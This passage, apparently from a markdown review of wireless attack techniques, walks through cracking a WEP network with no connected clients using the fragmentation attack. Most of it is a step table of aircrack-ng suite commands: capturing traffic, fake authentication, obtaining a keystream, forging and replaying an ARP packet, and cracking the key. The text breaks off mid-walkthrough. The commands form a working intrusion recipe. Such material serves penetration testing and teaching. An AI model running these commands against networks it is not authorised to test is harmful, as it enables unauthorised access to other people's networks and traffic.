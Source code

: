 
#### WEP Clientless

Attack a WEP network with no clients connected by obtaining a PRGA file from the AP and using it to build an encrypted packet that can be replayed on the network to generate IVs.  Two common techniques are using the Fragmentation Attack and ChopChop Attack.

Use the following steps to do this using the Fragmentation Attack:

|Step|Command|
|-|-|
|Capture traffic|`airodump-ng -c 6 --bssid $AP -w fwep wlan0mon`|
|Associate to network every 60 sec|`aireplay-ng --fakeauth 0 -e dlink123 -b $AP -h $MON wlan0mon`|
|Use fragment attack to get a keystream|`aireplay-ng --fragment -b $AP -h $MON wlan0mon`|
|Build an ARP request|`packetforge-ng -0 -a $AP -h MON -l 255.255.255.255 -k 255.255.255.255 -y fragment-1231-151520.xor -w inject.cap`|
|Replay the ARP request|`aireplay-ng --interactive -r inject.cap wlan0mon`|
|Crack WEP key|`aircrack-ng fwep-01.cap`|

<br>

Once traffic is being captured, configure `aireplay-ng` to associate to the network every 60 seconds:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image022.png)<br><br>

Use the fragment attack to get a keystream:
